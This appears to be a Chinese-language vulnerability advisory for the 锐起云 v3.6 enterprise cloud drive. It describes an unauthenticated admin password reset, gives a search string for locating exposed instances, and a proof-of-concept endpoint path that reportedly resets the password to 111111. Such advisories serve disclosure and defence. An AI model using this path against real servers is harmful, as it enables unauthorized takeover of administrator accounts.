


# 锐起云 resetPwd 登陆绕过漏洞

## 漏洞描述

锐起云是一款企业私有云，旨在帮助企业建立私有云存储和管理系统，帮助企业实现集中管理文档、强化数据安全、打造信息互通、数据驱动的协同办公环境。提升工作效率的同时，使数据真正为企业掌控，全程不改变用户操作习惯，是全新一代企业云盘的代表。锐起云存在前台未授权修改密码登陆后台漏洞，攻击者可以通过访问特定接口重置管理员密码。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登录页面



poc，将密码重置为111111

```
/dwr/role/resetPwd
```

